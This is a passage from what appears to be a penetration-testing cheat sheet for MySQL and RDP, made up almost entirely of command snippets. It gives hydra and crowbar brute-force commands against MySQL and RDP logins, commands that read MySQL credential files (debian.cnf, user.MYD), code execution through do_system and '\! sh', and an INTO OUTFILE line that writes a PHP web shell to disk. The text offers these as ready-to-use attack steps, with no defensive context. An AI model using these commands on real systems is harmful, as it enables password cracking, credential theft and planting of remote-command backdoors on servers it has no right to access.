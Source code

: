 ```
hydra -L <USERS_LIST> -P <PASSWORDS_LIST> <IP> mysql -vV -I -u
```

```
cat /etc/mysql/debian.cnf
grep -oaE "[-_\.\*a-Z0-9]{3,}" /var/lib/mysql/mysql/user.MYD | grep -v "mysql_native_password"
```

### Connect

```
# Local
mysql -u <USER>
mysql -u <USER> -p

# Remote
mysql -h <IP> -u <USER>
```

### MySQL commands

```
show databases;
use <DATABASES>;

show tables;
describe <TABLE>;

select * from <TABLE>;

# Try to execute code
select do_system('id');
\! sh

# Read & Write
select load_file('<FILE>');
select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE '<OUT_FILE>'
```

### Manual exploit

```
Cheatsheet :
	- https://www.asafety.fr/mysql-injection-cheat-sheet/
```

---

## RDP - 3389

### Brute force

```
crowbar -b rdp -s <IP>/CIDR -u <USER> -C <PASSWORDS_LIST>
crowbar -b rdp -s <IP>/CIDR -U <USERS_LIST> -C <PASSWORDS_LIST>

hydra -f -L <USERS_LIST> -P <PASSWORDS_LIST> rdp://<IP> -u -vV
```

